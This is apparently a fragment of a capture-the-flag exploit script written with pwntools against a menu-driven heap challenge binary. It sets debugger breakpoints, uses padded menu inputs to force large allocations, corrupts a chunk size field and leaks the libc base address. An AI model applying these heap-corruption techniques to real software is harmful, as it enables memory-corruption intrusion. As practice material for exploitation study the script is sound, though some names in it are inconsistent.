 ```python
        for i in b_slice:
            b_string += f"b *{hex(i)}\n"
    if is_start :
        io = gdb.debug(filename,b_string)
        return
    else:
        gdb.attach(io,b_string)
        pause()


b_add=0x1315
b_free=0x12AC
b_show=0x1276 
b_scan = 0x1201 
b_slice = [
    b_add,
    b_free
]
io = process(file_name)
debug(b_slice = b_slice,is_pie=1,is_start=1) # 直接启动带 pie
#debug(b_slice = b_slice, is_pie = 0, is_start = 1) 
#debug(b_slice = b_slice, is_pie = 0, is_start = 0) 
#io = remote(url, port)

def get_addr(arch):
    if arch == 64:
        return u64(io.recv(6).ljust(8,b'\x00'))
        #return u64(io.recv()[-8:].ljust(8, b'\x00')) 
    else:
        return u32(p.recv(4).ljust(4,b'\x00'))
        #return u32(io.recvuntil(b'\xf7')

def add(size, content):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"Size [1=small / 2=big]: ", tob(size))
    io.sendafter(b"Data: ", content)
 
def show():
    io.sendlineafter(b"> ", b"2")
 # 发送指定数据到 io 缓冲区
def show2(len):
    io.sendlineafter(b"> ", b"0" * (len-1) + b"2")
 
def show3(len):
    io.sendlineafter(b"> ", b"0" * (len-1) + b"2" + b"\x00")
 
def free():
    io.sendlineafter(b"> ", b"3")
 
def free3(len):
    io.sendlineafter(b"> ", b"0" * (len-1) + b"3")
 
free3(0xd59) 

add(1, b"a" * 0x48 + p64(0xd11))
show2(0x1000)
free()
add(1, b"a" * 0x50)
show()
io.recvuntil(b"Data: " + b"a" * 0x50)
libc_base = u64(io.recvuntil(b"\n", drop=True).ljust(8, b"\x00")) - 0x219ce0
log.success(f"libc_base : {libc_base:#x}")
free()
```